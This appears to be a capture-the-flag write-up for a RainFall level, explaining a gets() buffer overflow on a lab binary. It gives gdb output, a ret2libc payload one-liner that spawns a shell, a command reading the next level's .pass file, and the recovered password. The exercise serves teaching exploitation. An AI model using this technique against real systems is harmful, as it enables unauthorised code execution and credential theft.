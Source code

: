 With gdb, with can try to verify the length of the buffer.
To do so, we run `gbd ./level01` and we write 76 characters. 

> (gdb) run
> The program being debugged has been started already.
> Start it from the beginning? (y or n) y
> Starting program: /home/user/level1/level1 
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> Program received signal SIGILL, Illegal instruction.
> 0xb7e45400 in __libc_start_main () from /lib/i386-linux-gnu/libc.so.6  

There is already an issue due to the `null byte` at the end of a string while we use `gets`.
So if we want to use the buffer overflow, we must give a buffer of 76 characters.
Secondly, we must not close the prompt, so a simple execution of a python script won't work. To keep the prompt open, we will use the following command :

```bash
cat <(cmd) - | ./level1
```

There is two ways to exploit a buffer overflow. Either by using a shell-code and rewrite the eip address. Or we can change the stack directly so it will do what we want.
We will go with the second option.
To do so, we need to find the location of the function `system` and find the string `/bin/sh` with gdb :

```assembly
(gdb) disass system
Dump of assembler code for function system:
   0xb7e6b060 <+0>:	sub    $0x1c,%esp
```

```assembly
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
```

We just need to put whatever we want as the return address of the function. And we are good to go :

> level1@RainFall:~$ cat <(python -c 'print "A" * 76 + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7"') - | ./level1 
> whoami
> level2
> cat /home/user/level2/.pass
> 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```bash
su level2
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

